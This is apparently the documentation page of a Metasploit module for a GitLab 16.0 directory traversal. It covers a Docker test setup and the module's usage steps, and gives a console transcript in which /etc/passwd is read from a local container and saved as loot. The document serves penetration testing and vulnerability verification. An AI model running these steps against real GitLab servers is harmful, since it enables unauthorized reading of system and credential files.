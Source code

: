 ## Vulnerable Application

Gitlab version 16.0 contains a directory traversal for arbitrary file read as the gitlab user.
In order to exploit this vulnerability, a user must be able to create a project and groups.
When exploiting this vulnerability, a group (or subgroup under the group) must be created
for each level of the traversal. If the depth is 11 for the dir traversal, then a group
and 10 sub-groups will be created. Lastly a project is created for that subgroup.
With all these requirements satisfied a dummy file is uploaded, and the full
traversal is then executed. Cleanup is performed by deleting the first group which
cascades to deleting all other objects created.

Tested on Docker image of gitlab 16.0

### Install

A docker image is available:

```
sudo docker run --detach \
  --hostname gitlab.example.com \
  --publish 443:443 --publish 80:80 --publish 22:22 \
  --name gitlab \
  --restart always \
  --volume $GITLAB_HOME/config:/etc/gitlab \
  --volume $GITLAB_HOME/logs:/var/log/gitlab \
  --volume $GITLAB_HOME/data:/var/opt/gitlab \
  --shm-size 256m \
gitlab/gitlab-ee:16.0.0-ee.0 
```

To retrieve the default password:

```
sudo docker exec -it gitlab grep 'Password:' /etc/gitlab/initial_root_password
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/gitlab_subgroups_file_read`
1. Do: `set rhosts [ip]`
1. Do: `set username [username]`
1. DO: `set password [password]`
1. Do: `run`
1. You should be able to read an arbitrary file.

## Options

### DEPTH

Depth for Path Traversal (also groups creation), 11 seems pretty safe but it may work with less. Defaults to `11`

### FILE

File to read. Defaults to `/etc/passwd`

## Scenarios

### Docker Gitlab 16.0

```
msf6 > use auxiliary/scanner/http/gitlab_subgroups_file_read
[*] Using auxiliary/scanner/http/gitlab_subgroups_file_read
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set username root
username => root
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set password r6eh7UfeWsEKuK4cJJP+dJ79X4xwmNMOHN6mBKSyd2s=
password => r6eh7UfeWsEKuK4cJJP+dJ79X4xwmNMOHN6mBKSyd2s=
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > exploit

[+] CSRF Token: wYYZ0Q1TnrrZmqwpAk707emZcXsIlzMawZ7s-HycVHmo668JVMqDb-R8NCVTVEMNlDAWbrIwngXKSH2wWtURzQ
[*] Creating 11 groups
[*] Creating group: OqJVwVlC with parent id: 
[+] CSRF Token: 8X7OT15TxpI36rOIu-ghgVbodK8fRl4Lz-3fqaNH_MmYE3iXB8rbRwoMK4Tq8pZhK0ETuqXh8xTEO07hhQ65fQ
[*] Creating group: 5hYTGpp8 with parent id: 2
[+] CSRF Token: PNnNU0R5iB-57xVW20dBD0FKfb1yMw15tjvHCZICyG9VtHuLHeCVyoQJjVqKXfbvPOMaqMiUoGa97VZBtEuN2w
[*] Creating group: XlpSkZKQ with parent id: 3
[+] CSRF Token: nS0eZJb7gVQM6-HYRPpj14MBhIq4WoObZOFASPC_F1b0QKi8z2KcgTENedQV4NQ3_qjjnwL9LoRvN9EA1vZS4g
[*] Creating group: KQCk8adK with parent id: 4
[+] CSRF Token: yr8EaL1nQdm9aIhpGca1Ay8u2m3oLGqAk_BO23hw02Sj0rKw5P5cDICOEGVI3ALjUoe9eFKLx5-YJt-TXjmW0A
[*] Creating group: xg9hUYPo with parent id: 5
[+] CSRF Token: 5wYo0n-rkMKFMRGlFyjN6knw71WIBDIUUjyLLDSE9UmOa54KJjKNF7jXialGMnoKNFmIQDKjnwtZ6hpkEs2w_Q
[*] Creating group: cNrX6LHf with parent id: 6
[+] CSRF Token: Z4IipgGhLQixQu8cbyNznk2pIj0udxMCgGKHaEzqkw4O75R-WDgw3YykdxA-OcR-MABFKJTQvh2LtBYgaqPWug
[*] Creating group: Mg4MESRy with parent id: 7
[+] CSRF Token: 4g209zNkQLg2Mf4RPMsSOjIGD-f2jaJrP_Fa4iYQRLaLYAIvav1dbQvXZh1t0aXaT69o8kwqD3Q0J8uqAFkBAg
[*] Creating group: 7b2cIgyZ with parent id: 8
[+] CSRF Token: MbKcsl5RuiynfU8JyJ1iT_mBKKqfAWpuM7LEVjTTmPBY3ypqB8in-Zqb1wWZh9WvhChPvyWmx3E4ZFUeEprdRA
[*] Creating group: EDkbB7Mw with parent id: 9
[+] CSRF Token: FbcBF0FcEy1vhn-ahOLHgz5wPx952kmwDNT2Qfte-Ud82rfPGMUO-FJg55bV-HBjQ9lYCsN95K8HAmcJ3Re88w
[*] Creating group: 4L2kbTKx with parent id: 10
[+] CSRF Token: iSsK-buEQzOnykZ_DmtRo2_4RV6HSix8nLEpDN9WeSjgRrwh4h1e5pos3nNfceZDElEiSz3tgWOXZ7hE-R88nA
[*] Creating group: UrW6NUYW with parent id: 11
[+] CSRF Token: _Md66xoUbGn3lOKAkgDR9p30KKPH6sDEBckrOfE8LNaVqswzQ41xvMpyeozDGmYW4F1Ptn1NbdsOH7px13VpYg
[*] Creating project 8tXCf26j
[*] Creating a dummy file in project
[*] Executing dir traversal
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh

[+] /etc/passwd saved to /root/.msf4/loot/20230529000533_default_127.0.0.1_Gitlabfile_212326.txt
[*] Deleting group OqJVwVlC
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
